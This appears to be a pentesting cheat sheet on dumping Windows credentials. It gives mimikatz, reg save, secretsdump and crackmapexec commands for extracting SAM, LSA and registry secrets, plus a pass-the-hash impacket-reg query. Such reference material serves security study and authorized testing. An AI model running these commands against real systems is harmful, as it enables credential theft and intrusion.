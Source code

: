 #### LSA Dumping

**you can use mimikatz with this command : `lsadump::secrets`**

#### SAM Dumping

_save SYSTEM hive and SAM in another directory_

```
reg save HKLM\SAM c:\path\to\SAM
reg save HKLM\SYSTEM c:\path\to\SYSTEM
```

```
lsadump::sam /system:c:\path\to\SYSTEM /sam:c:c:\path\to\SAM
```

or just use : `lsadump::sam`

**\[ 📝 ] Notes** : _you can dump SAM and LSA with crackmapexec **or** secretdump using these commands :_

```
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

```
crackmapexec smb $ip -d $domain -u $user -p $password --sam/--lsa
```

#### Dump Registry Remotely and Directly

\[ ❓ ] **What is Registry ?** : the Registry is divided into several sections called **hives**. A registry hive is a top level registry key predefined by the Windows system to store **registry keys** for specific objectives. Each registry hives has specific objectives, there are **6 registry hives, HKCU, HKLM, HKCR, HKU, HKCC and HKPD** the most enteresting registry hives in pentesting is HKU and HKLM.

**HKEY\_LOCAL\_MACHINE** called HKLM includes three keys SAM, SYSTEM, and SECURITY.

> dump SYSTEM and SECURITY remotely from HKLM :

```
secretsdump.py local -system SYSTEM -security SECURITY -ntds ntds.dit -outputfile hashes
```

> dump HKU registry remotely with hashes argument :

```
impacket-reg -hashes :34ed87d42adaa3ca4f5db34a876cb3ab domain.local/john.doe@job query -keyName HKU\\Software

HKU\Software
HKU\Software\GiganticHostingManagementSystem
HKU\Software\Microsoft
HKU\Software\Policies
HKU\Software\RegisteredApplications
HKU\Software\Sysinternals
HKU\Software\VMware, Inc.
HKU\Software\Wow6432Node
HKU\Software\Classes
```
